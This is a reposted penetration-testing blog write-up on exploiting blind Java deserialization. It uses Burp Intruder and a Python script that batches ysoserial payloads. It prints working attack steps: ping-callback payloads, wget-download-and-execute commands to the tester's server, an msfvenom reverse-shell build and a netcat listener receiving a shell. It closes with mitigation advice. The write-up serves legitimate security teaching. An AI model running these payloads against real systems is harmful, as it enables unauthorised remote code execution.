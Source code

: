 

##
#
https://www.coalfire.com/the-coalfire-blog/exploiting-blind-java-deserialization
#
##

Exploiting Blind Java Deserialization with Burp and Ysoserial
While performing a web application  penetration test, I stumbled upon a parameter with some base64 encoded data within a POST parameter. Curious as to what it was, I sent it over to Burp decoder.

While performing a web application penetration test, I stumbled upon a parameter with some base64 encoded data within a POST parameter. Curious as to what it was, I sent it over to Burp decoder.


click to enlarge image

After two rounds of URL decoding and one round of Base64 decoding, I had what appeared to be a serialized Java payload. This was apparent from the magic number, which is rO0 in ASCII or AC ED 00 in hex. Having heard of ysoserial, I figured that the best course of action would be to build a payload with that toolset and send it as the value of the POST parameter I had identified. Ysoserial is great because it contains a wide array of payloads, but I didn’t really have any way of knowing which one to use. Lucky for me, a blog post I found on /r/netsec detailed a scenario that was extremely similar to mine. The post by Petre Popescu contained a script that would create a series of payloads containing any command for each different payload type that allows for command execution. Much like him, I did not know the underlying operating system either, so I created ping payloads for both Linux and Windows. Another problem I found when analyzing the baseline payload is that it was not simply base64 encoded; it was base64 encoded, split with line breaks every 76 characters, and then URL encoded twice. I modified Petre’s script to accommodate for this.
```
import os
import re
import base64
import urllib
payloads = ['BeanShell1', 'Clojure', 'CommonsBeanutils1', 'CommonsCollections1', 'CommonsCollections2',
            'CommonsCollections3', 'CommonsCollections4', 'CommonsCollections5', 'CommonsCollections6', 'Groovy1',
            'Hibernate1', 'Hibernate2', 'JBossInterceptors1', 'JRMPClient', 'JSON1', 'JavassistWeld1', 'Jdk7u21',
            'MozillaRhino1', 'Myfaces1', 'ROME', 'Spring1', 'Spring2']
def generate(name, cmd):
    for payload in payloads:
        final = cmd.replace('REPLACE', payload)
        print 'Generating ' + payload + ' for ' + name + '...'
        command = os.popen('java -jar ../ysoserial.jar ' + payload + ' "' + final + '"')
        result = command.read()
        command.close()
        encoded = base64.b64encode(result)
        if encoded != "":
            #Create line breaks at 76 characters
            encoded = re.sub("(.{76})", "\\1\n", encoded, 0, re.DOTALL)
            #Double URL encode the payload
            encoded = urllib.quote_plus(urllib.quote_plus(encoded))
            open(name + payload + '_intruder.txt', 'a').write(encoded + '\n')

generate('Windows', 'ping -n 1 [MY_SERVER])
generate('Linux', 'ping -c 1 [MY_SERVER])

```

Like Petre, I used Burp Intruder to send these payloads one by one, swapping out the payload into the vulnerable parameter. I started tcpdump on my server filtering for ICMP.

root@MyServer:~# tcpdump icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes

As the payloads began to fire off, I noticed one ping came into my server with a DNS name that matched my client. To validate which payload worked, I ran the Intruder attack again, slowing it down to see which payload actually fired. I found that the target was Linux and that the CommonsBeanutils1 payload had worked.

I really wanted a reverse shell, so my next focus was on getting a payload that would work on my target. I then tried to execute all the one-liners from the pentestmonkey Reverse Shell Cheat Sheet, with no luck. I then got the idea to wget down a payload from a server I control, set the execute bit, and then execute it. I initially tried to chain these three commands:

    wget http://MY_SERVER:8080/payload -o /tmp/payload
    chmod +x /tmp/payload
    /tmp/payload

After some trial and error, I later found that chaining commands with a semicolon didn’t really work in this context and that I needed to send them one at a time. Having failed before with the one-liner payloads, I created an ELF binary for Linux to connect back to my server with msfvenom.

root@kali:~# msfvenom -p linux/x86/shell_reverse_tcp LPORT=443 LHOST=MY_SERVER -f elf > payload
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
Final size of elf file: 152 bytes

Not knowing the architecture, I just chose a 32-bit payload as I knew it would work on both 64-bit and 32-bit. After sending the three serialized java commands, I received a connection back on my server.
```
root@MyServer:~# nc -lvp 443
listening on [any] 443 ...
connect to [XXX.XXX.XXX.XXX] from victim.com [XXX.XXX.XXX.XXX] 60173
python -c 'import pty;pty.spawn("/bin/bash")'
[user@victim]$ id
id
uid=500(victim) gid=500(victim) groups=500(victim)
```
After receiving a reverse shell on the target, I quickly informed the client.

The best way to mitigate this class of vulnerability is to use alternative data formats, avoiding native deserialization formats. If an application requires passing serialized objects, it must only do so with signed and validated serialized objects to reduce the risk on an arbitrary object supplied by a malicious user. 
